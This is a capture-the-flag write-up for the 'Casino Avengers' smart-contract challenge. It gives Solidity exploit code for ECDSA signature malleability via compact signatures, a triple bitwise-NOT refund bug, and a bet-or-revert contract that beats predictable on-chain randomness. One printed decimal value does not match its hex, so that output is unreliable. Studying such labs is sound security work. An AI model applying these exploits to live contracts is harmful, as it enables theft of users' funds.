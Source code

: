 # Casino Avengers

## Author

ustas.eth

## Description

After numerous attacks by Alice on Bob, he's now planning his revenge. By tracing his stolen funds, Bob has uncovered
Alice's latest scheme: a rigged Casino smart contract.
You and Bob have a long history together. While Bob may not be an expert in hacking, he has turned to his most trusted
ally - you - for assistance. Although the funds are already locked in the contract and it seems impossible to retrieve
them, as a team you are determined to find a way...

## Solution

### Step 1:

Because the *Casino* contract is using vulnerable version
of [OpenZeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v4.7.0/contracts/utils/cryptography/ECDSA.sol#L57)
ECDSA library. Which allow for signature malleability. The same signature can be reused if two different formats.

Find the original signature used for *pause*, it is of *length 65 bytes*, convert it
to [Compact Signature Representation](https://eips.ethereum.org/EIPS/eip-2098), it is still valid signature.
Once you have the new signature, call `pause(compactSignature, sameSalt)` to unpause the Casino.

```solidity
function convertSignatureToCompact(bytes memory signature) public pure returns (bytes memory) {
    require(signature.length == 65, "Invalid signature length - must be 65 bytes");

    // First, we'll extract r, s, and v from the 65-byte signature
    bytes32 r;
    bytes32 s;
    uint8 v;

    // Extract the components using assembly, just like in the OpenZeppelin code
    assembly {
    // The first 32 bytes after the length prefix (0x20) contain r
        r := mload(add(signature, 0x20))
    // The next 32 bytes contain s
        s := mload(add(signature, 0x40))
    // The last byte contains v
        v := byte(0, mload(add(signature, 0x60)))
    }

    // Validate that v is either 27 or 28
    require(v == 27 || v == 28, "Invalid v value - must be 27 or 28");

    // Create the compressed 'vs' value by potentially setting the highest bit
    // If v is 28, we set the highest bit of s to 1
    // If v is 27, we leave s as is
    bytes32 vs = v == 28
        ? bytes32(uint256(s) | (1 << 255))  // Set the highest bit
        : bytes32(uint256(s));              // Leave as is

    // Combine r and the modified vs into a 64-byte signature
    return abi.encodePacked(r, vs);
}
```

Now you might think we can *withdraw* out funds; you are wrong; the `_withdraw` function has a *typo* and nobody can
withdraw their funds.

```solidity
function _withdraw(address withdrawer, address receiver, uint256 amount) internal whenNotPaused {
    //...
    reciever.call{value: amount}(""); // <<< wrong spelling of [reciever]
}
```

### Step 2:

As the *player* deposit *0.1 ether* into the casino to start playing.

### Step 3:

We take advantage of another *clever* bug that was put into the *reset* function.
This line of code `uint256 balance = ~~~balances[holder]; // optimization trick` is interesting, the triple *bitwise
NOT* will just flip the balance bits.

1. `~balance` flip all bits.
2. `~~balance` flip all bits twice, bringing it back to int original value.
3. `~~~balance` flip all bits three times, resulting in flipped balance.

So if you have *1 ether*, the contract will try to refund you with `type(uint256).max - 1 ether`.

All we have to do is to *kep betting* until our balance is the flipped value of the *Casino* total balance.

```solidity
function reset(
    bytes memory signature,
    address payable receiver,
    uint256 amount,
    bytes32 salt
) external {
    //...
    for (uint256 h = 0; h < holderslen; h++) {
        address holder = holders[h];
        uint256 balance = ~~~balances[holder]; // optimization trick
        balances[holder] = 0;
        holder.call{value: balance}("");
    }
    //...
}
```

```bash
➜ uint balance = 1 ether;
➜ uint balanceFlipped = ~~~balance;

➜ balance
Type: uint256
├ Hex: 0xde0b6b3a7640000
├ Hex (full word): 0xde0b6b3a7640000
└ Decimal: 1000000000000000000
➜ balanceFlipped
Type: uint256
├ Hex: 0xfffffffffffffffffffffffffffffffffffffffffffffffff21f494c589bffff
├ Hex (full word): 0xfffffffffffffffffffffffffffffffffffffffffffffffff21f494c589bffff
└ Decimal: 115792089237316195423570985008687907853269984665640564039456584007913129639935
```

### Step 4:

Start betting, but be smart about it, the way *Casino* determine winners is not very random because the input parameters
are known and can be controlled by the caller.

```solidity
uint256 random = uint256(keccak256(abi.encode(gasleft(), block.number, totalBets)));
bool win = random % 2 == 1;
```

You can make *PlayerBettingContract* that will *ALWAYS* win.

```solidity
contract PlayerBetterContract {
    function bet(Casino casino) {
        bool win = casino.bet(casino.balances(address(this)));
        if (!win) {
            revert("I changed my mind ;)");
        }
    }
}
```

Make a script that calls you *PlayerBetterContract*, and change the gas if it reverts. This can be done using
*JavaScript*; which I have no pleasure in explaining or writing; but you get the idea.

### Step 5:

Once you have *~~~address(Casino).balance*, go ahead and call *reset* with the compact signature.

```solidity
bytes memory resetSig = convertSignatureToCompact(resetSignature);
ca.reset(resetSig, payable(resetReceiver), resetValue, resetSalt);
```
